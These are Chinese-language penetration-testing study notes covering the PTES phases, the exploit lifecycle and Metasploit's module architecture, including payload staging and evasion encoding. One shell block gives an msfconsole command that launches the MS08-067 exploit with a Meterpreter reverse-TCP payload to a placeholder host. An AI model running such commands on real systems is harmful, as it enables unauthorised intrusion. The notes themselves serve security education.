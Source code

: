 > **渗透测试**就是一种通过模拟恶意攻击者的技术与方法，挫败目标系统安全控制措施，取得访问控制权，并发现具备业务影响后果安全隐患的一种安全测试与评估方式；渗透测试具备两种基本类型：黑盒测试与白盒测试，结合两者的称为灰盒测试

# 一、PTES渗透测试执行标准

### 1.前期交互阶段

通常涉及收集客户需求、准备测试计划、定义测试范围与边界、定义业务目标、项目管理与规划等活动

### 2.情报收集阶段

情报收集是否充分在很大程度上决定了渗透测试的成败

俗称信息收集阶段，方法包括公开来源信息查询、Google Hacking、社会工程学、网络踩点、扫描探测、被动监听、服务查点等

### 3.威胁建模阶段

针对获取的信息进行威胁建模与攻击规划，从大量的信息情报中理清头绪，确定出最可行的攻击通道

### 4.漏洞分析阶段

考虑如何取得目标系统的访问控制权，综合分析前几个阶段获取并汇总的情报信息，特别是安全漏洞扫描结果、服务查点信息等，通过搜索可获取的渗透代码资源，找出可以实施渗透攻击的攻击点，并在实验环境中进行验证。同时还可以针对攻击通道上的一些关键系统与服务进行安全漏洞探测与挖掘，期望找出可被利用的未知安全漏洞

### 5.渗透攻击阶段

渗透测试需要利用所找到的目标系统漏洞，来真正入侵系统当中，获得访问控制权

渗透攻击可以利用公开渠道可获得的渗透代码，但一般在实际应用场景中，渗透测试者还需要充分考虑目标系统特性来定制渗透攻击，并需要挫败目标网络与系统中实施的安全防御措施，才能成功达成渗透目的。在黑盒测试中，渗透测试者还需要考虑目标系统检测机制的逃逸，从而避免造成目标组织安全响应团队的警觉和发现

### 6.后渗透攻击阶段

根据目标组织的业务经营模式、保护资产形式与安全防御计划的不同特点，自主设计出攻击目标，识别关键基础设施，并寻找客户组织最具价值和尝试安全保护的信息和资产，最终达到能够对客户组织造成最重要业务影响的攻击途径

Metasploit渗透测试框架中另一个工具Meterpreter中实现了特权提升、信息收集、系统监控、跳板攻击与内网扩展等多样化的功能特性，在后渗透攻击阶段提供了强大功能

### 7.报告阶段

渗透测试过程最终向客户组织提交，取得认可并成功获得合同付款的就是一份渗透测试报告。
完整地报告凝聚之前所有阶段之中所获取的关键情报信息、探测和发掘出的系统安全漏洞、成功渗透攻击的过程，以及造成业务影响后果的攻击途径，同时还要站在防御者的角度上，帮助他们分析安全防御体系中的薄弱环节、存在的问题，以及修补与升级技术方案


# 二、安全漏洞生命周期

在渗透测试流程中，核心内容是找出目标系统中存在的**安全漏洞**
利用安全漏洞来造成入侵或破坏效果的程序就称为**渗透代码**(Exploit),或者**漏洞利用代码**

![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589473294086.png)

1）安全漏洞研究与挖掘

主要利用源代码审核（白盒测试）、逆向工程（灰盒测试）、Fuzz测试（黑盒测试）等方法，挖掘目标系统中存有的可被利用的安全漏洞

2）渗透代码开发与测试

在安全漏洞挖掘的同时，开发出概念严重性的**渗透攻击代码（POC）**，用于验证找到的安全漏洞是否确实存在，并确认其是否可被利用

3）安全漏洞和渗透代码在封闭团队中流传
4）安全漏洞和渗透代码开始扩散
5）恶意程序出现并开始传播
6）渗透代码/恶意程序大规模传播并危害互联网
7）渗透攻击代码/攻击工具/恶意程序逐渐消亡


# 三、Metasploit体系框架

![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589473294095.png)

`基础库文件`：Rex、framework-core、framework-base

`模块Module`：辅助模块（Aux）、渗透攻击模块（Exploit）、后渗透攻击模块（Post）、攻击载荷模块（Payloads）、空指令模块（Nops）和编译器模块（Encoders），目前msf5还新增了免杀后门模块（evasion）

`接口`：msfconsole控制台终端、msfcli命令行、msfgui图形化界面、armitage图形化界面以及msfapi远程调用接口，不过命令行和图形化目前已经被淘汰，而要实现命令行脚本可以编写脚本使用msfconsole -x来执行,更加实用

 ```shell
 msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
 ```

`插件`：插件可以集成现有的一些外部安全工具，如Nessus、OpenVAS等漏洞扫描器

`功能程序`：msfpayload、msfencode和msfvenom可以将攻击载荷封装为可执行文件、C语言、JavaScript语言等多种形式，并可以进行各种类型的编码；msf* scan系列功能程序提供了在PE、ELF等各种类型文件中搜索特定指令的功能，可以帮助渗透代码开发人员定位指令地址

### @深入理解Module

`payload`字面意思是有效攻击载荷，包含需要在远程主机上运行的恶意代码。

`exploit`是传送系统（运载火箭），payload是用来实际做什么事的代码（弹头）

#### 1.渗透攻击模块

利用发现的安全漏洞或配置弱点对远程目标系统进行攻击，以植入和运行攻击载荷，从而获得对远程目标系统访问权的`代码组件`

exploit分类依据：

- 目标系统的操作系统平台，以及所针对的网络服务或应用程序类型
- 按照所利用的安全漏洞所在的位置分为`主动渗透攻击`（web应用程序渗透攻击、SCADA工业控制系统服务渗透攻击）与`被动渗透攻击`（浏览器软件漏洞攻击、文件格式类漏洞攻击）

#### 2.攻击载荷模块

攻击载荷是在渗透攻击成功后促使目标系统运行的一段植入代码，通常作用是为渗透攻击者打开目标系统上的控制会话连接

在传统渗透代码开发中，攻击载荷只是一段功能简单的shellcode代码，攻击者需以汇编语言编制并转换为目标系统CPU体系结构支持的机器代码

Meterpreter就是一个最复杂、具有大量后渗透攻击阶段功能特性的攻击载荷，其他还有提供各种系统平台上可以运行的提权命令，VNC图形化界面控制等

渗透攻击者可以在选定渗透攻击代码之后，从很多适用的攻击载荷中灵活组装以获得控制会话

Metasploit攻击载荷模块分类：

1. 独立攻击载荷是完全自包含的，可直接独立地植入目标系统进行执行
	- 比如`windows/shell_bind_tcp`是适用于win平台，能够将shell控制会话绑定在指定TCP端口上的攻击载荷
2. 传输器（Stager）和传输体（Stage）配对分阶段植入技术，由渗透攻击模块首先植入小且可靠的传输器载荷，然后再运行传输器载荷时进一步下载传输体载荷并执行
	- 可以绕过win平台的NX、DEP等安全防御机制，**且？不再受大小限制**（这是很重要的特性），加载如Meterpreter、VNC桌面控制等复杂的大型攻击载荷
	- 如`windows/shell/bind_tcp`是由一个传输器载荷（bind_tcp）和一个传输体载荷（shell）所组成的，其功能等价于前面提到的独立攻击载荷

#### 3.空指令模块

空指令（NOP）是一些对程序运行状态下不会造成任何实质影响的空操作或无关操作指令，在x86 CPU体系架构平台上的操作码是0x90

Metasploit框架中的空指令模块就是用来在攻击载荷中添加空指令区，使触发渗透攻击后跳转执行shellcode时，有一个较大的安全区，从而避免受到内存地址随机化、返回地址计算偏差等原因造成的shellcode执行失败，从而提高攻击可靠性的组件

#### 4.编码器模块

攻击载荷模块与空指令模块组装完成一个指令序列后，在这段指令被渗透攻击模块加入邪恶数据缓冲区交由目标系统运行之前，Metasploit框架还需要完成一道非常重要的工序——编码。如果没有这道工序，渗透攻击可能不会奏效，或者中途被检测到并阻断

`编码器模块的使命`：

1. 确保攻击载荷中不会出现渗透攻击过程中应加以避免的"坏字符"，badchars的存在将导致特殊构造的邪恶数据缓冲区无法按逾期目标完全输入到存有漏洞的软件历程中

2.  对攻击载荷进行“免杀”处理，通过多个编码器的嵌套编码，达到类似混淆的目的

#### 5.后渗透攻击模块

- 主要支持在渗透攻击取得目标系统远程权之后，在受控系统中进行各式各样的后渗透攻击动作，比如获取敏感信息、进一步扩展、实施跳板攻击等

- 后渗透模块需要通过Meterpreter或shell攻击载荷加载到目标操作系统平台上运行，是完成在目标系统上进一步攻击功能的组件代码，可以代替一些扩展脚本`（Meterpreter的基本功能是控制会话，还集成大量的后渗透攻击命令与功能）`

